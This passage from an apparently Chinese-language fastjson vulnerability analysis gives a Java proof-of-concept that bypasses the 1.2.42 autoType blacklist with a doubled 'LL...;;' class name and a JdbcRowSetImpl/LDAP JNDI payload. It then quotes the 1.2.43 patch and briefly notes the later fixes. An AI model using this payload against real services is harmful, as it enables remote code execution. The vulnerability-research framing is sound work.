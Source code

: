 可以发现在以上的处理中，只删除了一次开头的`L`和结尾的`;` ,  重复一下就可以被轻易的绕过

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * fastjson 1.2.42
 */
public class fastjson1242
{
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

## [1.2.43]版本修复

在1.2.43中对于1.2.42版本可绕过的情况进行了修复。

修改了`com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class, int)`的部分代码 

```java
//hash计算基础参数
            long BASIC = -3750763034362895579L;
            long PRIME = 1099511628211L;
            //L开头，；结尾
            if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                //LL开头
                if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
                    //直接爆出异常
                    throw new JSONException("autoType is not support. " + typeName);
                }

                className = className.substring(1, className.length() - 1);
            }
```

## [1.2.44] `[` 限制

1.2.44补充了loadclass时`[`的利用情况，上面说到过，实际上这种形式的payload是用不了的。 

## [1.2.45] 黑名单添加
